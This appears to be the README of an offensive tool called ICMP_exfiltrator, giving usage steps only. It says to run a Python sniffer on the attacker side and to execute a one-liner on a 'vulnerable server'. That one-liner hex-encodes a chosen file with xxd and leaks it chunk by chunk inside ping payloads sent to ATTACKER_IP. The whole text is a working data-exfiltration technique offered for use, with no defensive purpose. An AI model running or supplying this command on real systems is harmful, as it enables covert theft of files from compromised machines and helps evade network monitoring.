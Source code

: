 # ICMP_exfiltrator

## Usage

- Start the sniffer 

```
sudo python3 ICMP_exfiltrator.py tun0
```

- Execute in the vulnerable server

```
xxd -p -c 4 /file/to/read | while read line; do ping -c 1 -p $line ATTACKER_IP; done
```

- And you will be able to read the file in the sniffer window

